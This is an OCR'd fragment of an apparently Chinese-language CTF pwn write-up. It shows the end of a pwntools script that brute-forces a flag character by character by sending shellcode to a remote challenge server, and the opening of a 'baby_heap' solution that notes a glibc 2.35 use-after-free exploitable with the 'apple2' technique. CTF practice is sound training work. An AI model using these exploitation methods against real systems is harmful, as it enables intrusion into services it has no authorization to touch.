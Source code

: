             # pause()
            # io = process('./pwn')
            info('flag ==> '+flag)
            io = remote('27.25.151.26',27718)
            # gdb.attach(io,'b *$rebase(0x137f)')
            # pause()
            s(or_+cmp(i,j)) #发送 shellcode
            # pause()
            io.recv(timeout=2)
            io.close()
            flag += chr(j) 
            
            if j == ord('}'): # 最后一个字符的结束判断
                info('flag ==> '+flag)
                pause()
            io.close()
            break
        except KeyboardInterrupt: # 方便调试 
            io.close()
            exit(0)
        except:
            info('index ==> {},当前字符 ==> {}'.format(i,chr(j))) # log信息
            io.clean()
            io.close()


io.interactive()
baby_heap
2.35 有UAF，打apple2即可
from pwn import *
context(arch='amd64',log_level='debug')
file = './pwn'
io = process(file)
io = remote('27.25.151.26',50872)
elf = ELF(file)
libc = elf.libc
# gdb.attach(io)
s       = lambda data               :io.send(data)
sa      = lambda text,data          :io.sendafter(text, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda text,data          :io.sendlineafter(text, data)
r       = lambda num=4096           :io.recv(num)
rl      = lambda                    :io.recvline()
ru      = lambda text               :io.recvuntil(text)
uu32    = lambda                    :u32(io.recvuntil(b"\xf7")[-4:].ljust(4,b"\x00"))
uu64    = lambda                    :u64(io.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))
inf     =  lambda s                 :info(f"{s} ==> 0x{eval(s):x}")

